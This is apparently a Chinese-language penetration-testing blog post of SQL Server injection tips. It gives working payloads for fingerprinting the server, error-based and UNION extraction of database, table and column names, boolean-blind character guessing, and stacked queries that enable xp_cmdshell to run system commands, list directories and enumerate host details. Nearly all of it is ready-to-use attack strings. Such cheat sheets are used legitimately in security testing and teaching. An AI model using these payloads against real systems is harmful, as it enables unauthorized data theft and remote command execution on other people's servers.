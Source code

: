+++
title = "SQL注入tips(SQL Server)"
topics = ["Pentest"]
tags = ["injection"]
description = "SQL Server注入常见的一些注入手法"
date = "2018-09-04T10:09:17+08:00"
draft = false
+++

<!--
 * @Author: reber
 * @Mail: 1070018473@qq.com
 * @Date: 2018-09-04 10:45:01
 * @LastEditTime: 2019-12-11 13:15:09
 -->
### 0x00 基础信息探测
```sql
@@VERSION,@@SERVERNAME,@@SERVICENAME;
--Microsoft SQL Server 2008 (RTM) - 10.0.1600.22 (X64) 
--WIN-2008
--MSSQLSERVER

USER,CURRENT_USER,SESSION_USER,SYSTEM_USER;
--dbo
--dbo
--dbo
--sa

USER_NAME(),HOST_NAME(),HOST_ID(),SUSER_NAME();
--dbo
--wyb
--46530
--sa

USER_ID(),USER_SID();
--1
--<01>

ORIGINAL_LOGIN();
--sa
```

### 0x01 UNION query & error-based 注入
* 判断存在注入

```
and 1=1/and 1=2
```
```
select * from msg where id=1 and 11=(select case when(1=1) then 11 else 2 end);

select * from msg where id=1 and 11=(select case when(1=2) then 11 else 2 end);
```

* 判断是否为sa权限

```
select name from msg where id=1 and 1=convert(int,(select is_srvrolemember('sysadmin')));
```

![55](/img/post/20180904-105516.png)

* 得到所有数据库名字
![75](/img/post/20180904-110306.png)
```
--报错得到数据库名，前6个是系统自带的数据库，所以从第7个开始，dbid依次增加即可得到所有数据库
select id,name from msg where id=1 and 0<>(select name from master.dbo.sysdatabases where dbid=7);
```
![75](/img/post/20180904-151240.png)

* 得到数据库test的所有表名（用户创建的表xtype的值是U）
![70](/img/post/20180904-111912.png)

```
--得到数据库test的第一张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U';

--得到数据库test的第二张表
select id,name from msg where id=-1 union select top 1 id,name from test.dbo.sysobjects where xtype='U' and name not in ('article');
```
![80](/img/post/20180904-151551.png)

* 得到数据库test的表article的所有列名
    * 可以分两步：先得到article的表id，然后得到列名
    ![60](/img/post/20180904-112859.png)
    ![75](/img/post/20180904-112938.png)

    * <f>也可直接一条命令直接得到列信息</f>
    ```
    select id,name from syscolumns where id=(select id from sysobjects where name='msg');
    ```

* 得到数据库test的表article的数据
![75](/img/post/20180904-113720.png)

### 0x02 boolean-based blind 注入
```sql
-- 得到数据库名:
select top 1 name from master.dbo.sysdatabases where name not in (select top 2 name from master.dbo.sysdatabases)

-- 得到表名:
select top 1 name from test.dbo.sysobjects where xtype='U' and name not in (select top 1 name from test.dbo.sysobjects where xtype='U');
```

```sql
?id=1 and substring(db_name(),1,1)='a' --
?id=1 and substring(db_name(),1,1)='b' --
```

```sql
-- 转换为数字
?id=1 and unicode(substring((select db_name()),1,1))>88 --
?id=1 and ascii(substring((select db_name()),1,1))>88 --
```

```sql
-- 转换为16进制
id=1 and (select master.dbo.fn_varbintohexstr(CONVERT(varbinary(30),(substring(db_name(),1,1)))) from master..sysdatabases where dbid=1) not in ('0x7400')
```

### 0x03 Stacked 注入
* 执行系统命令

```bash
#判断xp_cmdshell是否被删除
?id=1 and 1=(select count(*) from master.dbo.sysobjects where xtype = 'x' and name = 'xp_cmdshell');

#开启xp_cmdshell
?id=1;exec sp_configure 'show advanced options',1;reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;--

#使用xp_cmdshell执行命令
exec master..xp_cmdshell 'whoami';
```

* 文件操作

```
#列目录、文件
exec master..xp_dirtree 'c:\wwwroot',1 #列c:\wwwroot下的文件夹 
exec master..xp_dirtree 'c:\wwwroot',1,1 #列c:\wwwroot下的文件夹和文件

exec master..xp_subdirs 'c:\wwwroot' #列c:\wwwroot下的文件夹

#显示系统可用盘符
exec master..xp_availablemedia
```

* 主机、中间件信息

```
#获得MS SQL的版本号
exec master..sp_msgetversion

#列出服务器上所有windows本地用户组
exec master..xp_enumgroups

#得到当前sql server服务器的计算机名称
exec master..xp_getnetname

#服务器安全模式信息
exec master..xp_loginconfig
```
